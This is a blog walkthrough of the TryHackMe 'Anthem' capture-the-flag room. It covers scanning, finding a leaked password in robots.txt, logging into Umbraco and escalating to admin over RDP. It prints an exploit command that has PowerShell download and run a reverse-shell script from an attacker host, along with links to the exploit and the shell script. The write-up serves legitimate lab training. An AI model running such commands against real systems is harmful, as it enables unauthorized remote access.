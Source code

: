 ```yaml
---
layout: post
title: "Anthem: Try Hack Me Walkthrough"
date: 2020-05-15 20:20:20 +0000
last_modified_at: 2020-05-15 21:13:00 +0000
category: Walkthrough
tags: ["Try Hack Me", Anthem, Weekly Challenge]
comments: true
image:
  feature: Anthem_knhf8d.png
  credit: THM / TryHackMe
  creditlink: https://tryhackme.com/room/anthem
---
```


This post documents the complete walkthrough of Anthem, a weekly vulnerable challenge [VM][1] created by [Chevalier][2], and hosted at [Try Hack Me][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Anthem is a weekly challenge  vulnerable VM from Try Hack Me.

## Information Gathering

Let’s start with a `nmap` scan to establish the open ports in the host.

```
# nmap -vv --reason -Pn -sV -sC --version-all -oN /root/Desktop/THM/Anthem/scans/tcp_nmap.txt 10.10.63.195
...
Increasing send delay for 10.10.63.195 from 0 to 5 due to 169 out of 563 dropped probes since last increase.
Nmap scan report for 10.10.63.195
Host is up, received user-set (0.10s latency).
Scanned at 2020-05-15 15:59:17 EDT for 91s
Not shown: 995 closed ports
Reason: 995 resets
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2020-05-15T20:00:26+00:00
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Issuer: commonName=WIN-LU09299160F
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-04T22:56:38
| Not valid after:  2020-10-04T22:56:38
| MD5:   2814 61de 95b7 e9b5 4789 3027 7f1f 60d2
| SHA-1: d47d 2a8f 6143 b820 936e 4120 cdd1 9ddc 5385 d285
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQObhN9c8QnIVGx+ZslzEOmzANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tTFUwOTI5OTE2MEYwHhcNMjAwNDA0MjI1NjM4WhcNMjAx
| MDA0MjI1NjM4WjAaMRgwFgYDVQQDEw9XSU4tTFUwOTI5OTE2MEYwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDA4MPIi4yCYJlBv6vwXF5lu5NbQCPQxk4q
| 7lJsJSvTRSIFi2fVl3l+rWTr69mutnVqo+bMilJorN2B6DqsCJBV+7pITFSICM6b
| +G/sOEblVust2tUU8NLbAiBH9oXhF0P5dIhMzRC4pcZjhCRR+IcOjnABTCkdAchD
| Mf4XQJx6GZOXBCBMXGW/vCKZ0q8gti7Hxs36W1ctbj8/i5obd0k0BonMlvRwKxvi
| 7SS+3NrBpc4XivD23YIqCNzErOB19DV3JqZMvbE+NhLEQA51Au2svYwgoJcIIyEC
| HBuINXeFBB+p5dMwp4wppkHN0CuquUyCBZvIPlDW8SAOAc5tgUOJAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAAziR6P3nN9/EKLhZqJKgkWP9FyNr9CusD78wem1C5fn9h7SjS1PQEhn1
| Gi50rlcUmII4E8Bnv6g/1QZnZIsPtVzO3bokQfbhTEzWOQ8RScB3ZQ+Tg7xM4duA
| NZdzR1/hjOOmPBV4ih3+AKmbEZ63V3PuJOn2+0/NsGXzGKhaNhlAof58lXkXrt9x
| DvmpyfER7oq/3+kPQhXlNK7VZ/dp26BLFQT12be1yyeVck2n/90pXTxV/COaIdsF
| q7RJPVO+4FCua77sUUSV9E5CL3oOFJT5MjkAMEkoKsU9InWHhA5w+ndQqDgXIb40
| 7b3pD6AiS/ZEvSpzCyeVnDprZxVIaQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2020-05-15T20:00:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 26598/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 61865/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 47039/udp): CLEAN (Timeout)
|   Check 4 (port 33149/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-15T20:00:29
|_  start_date: N/A
```

### Flag One and Website Analysis

Appears to be some kind of `http` service. Here's how it looks like.

{% include image.html image_alt="anthem_ehocop.jpg" image_src="anthem_ehocop.jpg" %}

First things first we go to http://10.10.63.195/robots.txt

{% include image.html image_alt="anthemrobots_vemv4o.png" image_src="anthemrobots_vemv4o.png" %}

It looks like we found a password or something that should not be in robots.txt at the top. We add this to a list of passwords for later use. We also find out that this system is running a Umbraco CMS.

{% include image.html image_alt="poem_bq2pmn.png" image_src="poem_bq2pmn.png" %}

Looking through the posts we find a poem that was about the Admin of the site. We google that poem and find out it was written by Solomon Grundy. We add them to users on the site to try later. 
In the HR post we see the email format is FL@anthem.com where F is first name and L is last name. So we create the user SG@anthem.com.

{% include image.html image_alt="flag1_a7okeq.png" image_src="flag1_a7okeq.png" %}

Looking at the source code of the hiring page we can find our first flag in <meta content>

### Flag Two

{% include image.html image_alt="flag2_wjcmbn.png" image_src="flag2_wjcmbn.png" %}

We go back to the main page and view the source of website. This leads us to flag number two which can be found in the source code.

### Flag Three

{% include image.html image_alt="flag3_h41kft.png" image_src="flag3_h41kft.png" %}

We click on the we are hiring page and see that Jane Doe is the author and we can navigate to a page called /authors/jane-doe. We follow the link and are awarded the third flag.

### Flag Four

{% include image.html image_alt="flag4_aznzrp.png" image_src="flag4_aznzrp.png" %}

By following the steps for Flag One we can find Flag Four in the meta content on the IT poem page.

### Getting `user.txt`

{% include image.html image_alt="umbraco_jwou73.png" image_src="umbraco_jwou73.png" %}

Armed with this knowledge, we go to 10.10.63.195/umbraco and try logging in as SG@anthem.com and using the password we found on the robots.txt We are able to log in. 
We can determine the Umbraco version by clicking the ? icon and see that we are attacking Umbraco 7.15.4

Using searchsploit we only see 7.12.4 has an exploit and old metasploit exploit from 2012. I tried the 7.12.4 manually and it seemed to work so I found the following [GitHub Exploit][4] 
We then use the following powershell reverse shell found on [GitHub PS1 Script][5]


{% include image.html image_alt="shell_gnzq9a.png" image_src="shell_gnzq9a.png" %}

```
We send the following command with our nc listener open
python exploit.py -u 'SG@anthem.com' -p 'password' -i 'http://10.10.63.195' -c 'powershell.exe' -a "IEX (New-Object Net.WebClient).DownloadString('http://yourip/shell1.ps1')"
```

We do a net user and find out that SG is a user on the box. We try using the RDP port from earlier with the same password and we can log in as SG


```
xfreerdp /u:SG /p:password /v:10.10.63.195

```

We can skip the above shell part and just run the following command to get the same result.

```
python exploit.py -u 'SG@anthem.com' -p 'password' -i 'http://10.10.63.195' -c "powershell.exe" -a 'net users'

```

{% include image.html image_alt="FreeRDP_nnsvbu.png" image_src="FreeRDP_nnsvbu.png" %}

Bingo.


### Getting `root.txt`

Now, it's a matter of finding a hidden password on the box.

We open the file explorer and check the show hidden files button under view.
We find a backup folder at C:\backup with a file called restore in it. We tried to open it but we don’t have rights however if we look at the properties we are the owner. Lets see if we can give our self-access to it. We go to the security tab and click edit for permissions and then click add as no groups have been assigned to this file

{% include image.html image_alt="secuirty_p1w1rl.png" image_src="secuirty_p1w1rl.png" %}

We then click ok and give full control to SG and click apply. We can now open the file and see a long string that looks like a password!
We try to rdp in as Admin with this password from that file and we can get root

{% include image.html image_alt="anthemroot_gposdb.png" image_src="anthemroot_gposdb.png" %}

:dancer:

[1]: https://tryhackme.com/room/anthem
[2]: https://tryhackme.com/p/Chevalier
[3]: https://tryhackme.co
[4]: https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py
[5]: https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1
